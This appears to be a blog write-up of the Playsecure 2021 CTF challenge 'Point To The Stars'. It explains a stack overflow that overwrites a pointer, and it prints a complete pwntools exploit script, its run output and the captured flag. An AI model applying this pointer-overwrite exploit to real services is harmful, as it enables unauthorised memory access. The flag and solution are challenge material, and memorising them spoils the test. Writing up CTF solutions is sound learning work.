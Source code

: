 ```yaml
---
layout: post
title: Playsecure - Point To The Stars
---
```

### Challenge Description

Can you point to the stars? Make the pointer point to the flag!

Connect to the challenge at exploitation.ps.ctf.ae:5454

<!-- more -->

### Connecting to challenge server and interacting.

![pts00](/assets/playsecure2021/pts00.png)

### Overwriting the star pointer

Sending a string of length 100 will overwrite the star pointer.

![pts01](/assets/playsecure2021/pts01.png)

### Controlling the star pointer

We enter a unique pattern of 100 length as the wish. Find the offset at which the star pointer is getting overwritten.

![pts02](/assets/playsecure2021/pts02.png)

### Approach to Exploitation

WE know the following:
- The index at which star pointer is getting overwritten
- The address at which flag is stored

WE have to do the following:
- After connecting to challenge, read the flag address
- Send payload as [JUNK 72] + [FLAG ADDRESS PACKED LITTLE ENDIAN]
- Read responses from challenge server

### Exploitaion Proof of Concept

```python
# Author: Rizal Muhammed ~ rizaru ~ UB3RSiCK
# Date: 27 March 2021
# Desc: Playsecure ctf Point to the stars exploitation solution

from pwn import *
import struct

def p(a):
	return struct.pack("I",a)

conn = remote('exploitation.ps.ctf.ae',5454)
r = conn.recvuntil("Enter your wish: ")

temp = str(r).split('\\n')

print ('\n'.join(temp))


for item in temp:
        if "The flag is stored at" in item:
                flag = item[len('The flag is stored at '):]
        if "The star pointer is pointing at" in item: 
                ptr = item[len('The star pointer is pointing at '):]


payload = b"A"*72

f = str(flag)[2:]
print (f)

pp = p64(int(f, 16))

print (repr(pp))

payload += pp

print (payload, type(payload))

conn.sendline(payload)

print (conn.recvline())
print (conn.recvline())
print (conn.recvline())
```

Running the PoC.

![pts03](/assets/playsecure2021/pts03.png)

```bash
kali@kali:~/Desktop/CTF/playsecure.ctf.ae-mar262021/exploitation/point2thestars$ python3 pt2str.py 
[+] Opening connection to exploitation.ps.ctf.ae on port 5454: Done
b'Can you reach for the stars?
----------------------
The flag is stored at 0x7fffcf6de170
The star pointer is pointing at 0x7fffcf6de1c0
Enter your wish: '
7fffcf6de170
b'p\xe1m\xcf\xff\x7f\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\xe1m\xcf\xff\x7f\x00\x00' <class 'bytes'>
b'Granting your wish...\n'
b'The star pointer is now pointing at 0x7fffcf6de170\n'
b'Following the pointer you find: CTFAE{ReachForTheStarsAndBeyond}\n'
```

*FLAG: CTFAE{ReachForTheStarsAndBeyond}*
